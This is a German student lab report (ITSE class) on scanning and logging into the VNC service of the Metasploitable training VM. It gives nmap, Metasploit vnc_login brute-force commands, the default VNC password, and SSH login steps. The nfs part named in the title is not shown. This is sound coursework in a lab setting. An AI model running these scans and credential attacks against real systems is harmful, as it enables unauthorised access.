



# Arbeitsbericht ITSE: VNC Exploitation & portmapper/nfs vulnerability
---

Author: Markus Truschnegg

Klassse: 4AHITS

Fach: ITSE

Datum: 09.03.2026

---

## Übung (VNC - Recherche)

Virtual Network Computing (VNC) ist ein plattformunabhängiges System zur Fernsteuerung von Computern, das den Bildschirminhalt eines entfernten Rechners (Server) auf einem lokalen Rechner (Client) darstellt. Es überträgt Maus- und Tastaturbefehle vom Client an den Server, wodurch der entfernte Rechner so bedient werden kann, als säße man direkt davor. 

## Übung( VNC - Scan)

```
nmap --script=vnc-info -p 5900 <IP-Metasploitable>
```
Verion: 3.3



## Übung (VNC - Exploit)

```
msfconsole
search auxiliary/scanner/vnc
info auxiliary/scanner/vnc/vnc_login
use auxiliary/scanner/vnc/vnc_login
set RHOST <IP-Metasploitable>
run
```

```
vncviewer <IP-Metasploitable>
password: password
```


## Übung (ssh auf Metasploitable)

```
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub
ssh msfadmin@<IP-Metasploitable
```
wenn ssh nicht funktioniert
```
ssh -o HostKeyAlgorithms=+ssh-rsa msfadmin@<IP-Adresse>

```





